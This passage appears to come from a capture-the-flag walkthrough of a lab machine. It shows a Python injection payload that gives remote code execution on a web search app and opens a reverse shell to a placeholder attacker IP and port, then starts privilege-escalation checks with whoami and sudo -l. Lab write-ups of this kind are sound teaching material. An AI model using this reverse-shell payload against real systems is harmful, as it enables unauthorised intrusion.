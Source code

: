Which gives the output:

![Searcher RCE Demo](images/Searcher_RCE_Demo.jpg)

We now have Remote Code Execution (RCE) on the server. To get a reverse shell, we can use the following payload:

```plaintext

' + __import__('os').system("""export RHOST="<IP ADDRESS>";export RPORT=<PORT>;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'""") + '
```
{{%sidenote %}} Make sure to replace `<IP ADDRESS>` and `<PORT>` with your own IP address and port number. {{% /sidenote %}}

Website becomes stuck, and if you have a listener running with the right IP address and port in the payload, you will get a reverse shell.

![Reverse Shell](images/revshell_svc.jpg)


Great! We now have a reverse shell. However, we are still a low privileged user. Now comes the difficult part: Privilege Escalation. {{% sidenote %}} If you just want the user.txt, you can find it using `cd  ~` {{% /sidenote %}}

## Privilege Escalation

Before we can do that, we need to know what user we are and what we can run as sudo. 
`whoami` gives us:
```bash
svc
```

Not very useful. Let's check what we can run as sudo:

```bash
sudo -l
```

And we quickly run into a problem. We don't have a password and checking `sudo -l` requires password for even the lower privileged account.
